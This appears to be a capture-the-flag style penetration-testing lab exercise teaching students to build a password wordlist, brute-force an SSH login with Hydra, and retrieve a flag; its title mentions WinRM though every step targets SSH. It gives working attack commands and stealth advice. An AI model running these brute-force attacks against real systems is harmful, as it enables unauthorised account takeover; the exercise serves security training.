

# Exercise 5.4: WinRM Credential Brute Force

## Before You Begin

In Exercise 5.3, you tested a known set of credentials manually. Real penetration tests rarely hand you working passwords. When manual testing fails, automated brute-force tools let you test thousands of password combinations in minutes. The skill here is knowing how to build a targeted wordlist and configure the tool properly.

## Scenario

FinanceCorp's IT department uses a shared administrative account on several servers. Your team suspects the password is weak but does not have a confirmed value. You have been asked to run a controlled brute-force attack against the target's remote management service to discover the password. The rules of engagement allow password attacks during off-hours.

## Your Objectives

- Create a custom password wordlist for the attack
- Configure Hydra for an SSH-based brute-force attack
- Discover the valid password through automated testing
- Log in with the discovered credentials and capture the flag

---

## Background: Brute-Force Attacks and Wordlists

A brute-force attack systematically tests every possible password from a list until one succeeds. The quality of the wordlist determines whether the attack succeeds. A small, targeted list built from reconnaissance findings often outperforms a massive generic dictionary.

Effective wordlists include common passwords (like "password," "123456," and "qwerty"), organization-specific terms (company names, product names), and variations with numbers and special characters appended. Tools like CeWL can scrape websites to build custom wordlists, but for this exercise you will create one manually.

Brute-force attacks carry real risks in production environments. Account lockout policies may disable the target account after a set number of failed attempts. Intrusion detection systems may flag the rapid connection attempts. Always confirm that the rules of engagement permit brute-force testing and understand the lockout thresholds before launching an attack.



---

## Tool Primer: Hydra

Hydra is a fast, flexible network login cracker that supports dozens of protocols including SSH, FTP, HTTP, and SMB. The flags you will use in this exercise are listed below.

| Flag | Purpose |
|------|---------|
| `-l` | Specify a single username |
| `-P` | Specify a password wordlist file |
| `-t` | Number of parallel connection threads |
| `-V` | Verbose mode; show each login attempt |
| `-f` | Stop after the first successful login |
| `ssh://` | Target protocol and address |

A successful Hydra result looks like the following.

```
[22][ssh] host: 10.0.0.5   login: admin   password: qwerty
1 of 1 target successfully completed, 1 valid password found
```

The output clearly shows the discovered username and password along with the port and protocol used.

---

## Walkthrough

### Step 1: Create a Password Wordlist

Build a custom wordlist containing common weak passwords. Open a text editor or use the command line to create the file.

!!! kali "Kali - Create a custom password wordlist"
    ```bash
    cat << 'EOF' > /tmp/passwords.txt
    password
    password123
    admin
    admin123
    letmein
    welcome
    123456
    qwerty
    abc123
    monkey
    master
    dragon
    login
    princess
    football
    EOF
    ```

The file now contains 15 common passwords. In a real engagement, you would tailor the list based on intelligence gathered during reconnaissance; employee names, company terms, and patterns observed in leaked credential databases.

### Step 2: Verify the Wordlist

Confirm that the file was created correctly and count the entries.

!!! kali "Kali - Verify the wordlist contents and line count"
    ```bash
    wc -l /tmp/passwords.txt
    cat /tmp/passwords.txt
    ```

You should see 15 lines. Each line contains exactly one password candidate. Make sure there are no blank lines or extra whitespace that could cause Hydra to test empty strings.

### Step 3: Launch the Brute-Force Attack

Run Hydra against the SSH service on the target. The command specifies the username, wordlist, thread count, and target.

!!! kali "Kali - Launch Hydra brute-force attack against SSH"
    ```bash
    hydra -l admin -P /tmp/passwords.txt -t 4 -V -f ssh://<target_ip>
    ```

Breaking down the command: `-l admin` sets the username to test, `-P /tmp/passwords.txt` points to your wordlist, `-t 4` limits the attack to 4 parallel threads (reducing the chance of triggering lockouts), `-V` shows every attempt in real time, and `-f` tells Hydra to stop as soon as it finds a valid password.

Watch the output scroll by. Each line shows a username-password combination being tested. When Hydra finds a match, it prints a success message with the valid credentials highlighted.

### Step 4: Record the Discovered Credentials

When Hydra finishes, note the valid username and password from the output. The discovered credentials should be `admin:qwerty`.

### Step 5: Authenticate with the Discovered Password

Log in to the target using the credentials Hydra found.

!!! kali "Kali - Connect with the discovered credentials"
    ```bash
    ssh admin@<target_ip>
    ```

Enter the password `qwerty` when prompted. A successful login confirms that the brute-force attack worked and the credentials are valid.

### Step 6: Retrieve the Flag

Read the flag file from the admin home directory.

!!! kali "Kali - Read the flag file"
    ```bash
    cat /home/admin/flag.txt
    ```

Record the flag value, then exit the session.

!!! kali "Kali - Exit the SSH session"
    ```bash
    exit
    ```

---

### Record Your Findings

> Document your brute-force attack results below.
>
> ```
> Wordlist size:
> Hydra command used:
> Credentials discovered:
> Number of attempts before success:
> ```
>
> | Setting | Value |
> |---------|-------|
> | Target IP | |
> | Target Port | |
> | Username | |
> | Password Found | |
> | Threads Used | |

---

### Step 7: Record the Flag

Write down the flag from `/home/admin/flag.txt` in the format `OCR{<flag_here>}`.

---

## Analysis Questions

1. Why did we limit Hydra to 4 threads instead of using the maximum?

??? note "Reveal Answer"
    A high thread count sends many simultaneous connection attempts, which can trigger intrusion detection systems, cause account lockouts, or crash the target service. Using fewer threads is slower but stealthier and less likely to disrupt the target or alert defenders.

2. What makes the password "qwerty" a poor choice for a system administrator account?

??? note "Reveal Answer"
    "Qwerty" is the sequence of the first six letters on a standard keyboard. It appears in every common password list and would be one of the first candidates tested in any brute-force or dictionary attack. An administrative account with such a password can be compromised in seconds.

3. How would you improve your wordlist if the first attack failed?

??? note "Reveal Answer"
    You could expand the list by adding organization-specific terms from FinanceCorp's website, appending numbers and special characters to existing entries, including seasonal patterns like "Winter2026," and incorporating passwords from known credential leaks. Tools like CeWL, Mentalist, or Hashcat rules can generate these variations automatically.

4. What defensive measures could prevent this attack from succeeding?

??? note "Reveal Answer"
    Account lockout policies that disable the account after a set number of failures, rate limiting on the SSH service, multi-factor authentication (MFA), and intrusion detection rules that flag rapid failed login attempts would all reduce the effectiveness of brute-force attacks.

---

## Key Takeaways

- A targeted wordlist built from reconnaissance is more effective than a generic dictionary
- Hydra's `-f` flag prevents unnecessary noise by stopping after the first successful login
- Thread count should be balanced between speed and stealth
- Always document discovered credentials immediately; they may be needed in later exercises
- In Exercise 5.5, you will use authenticated access to execute commands and enumerate the target system
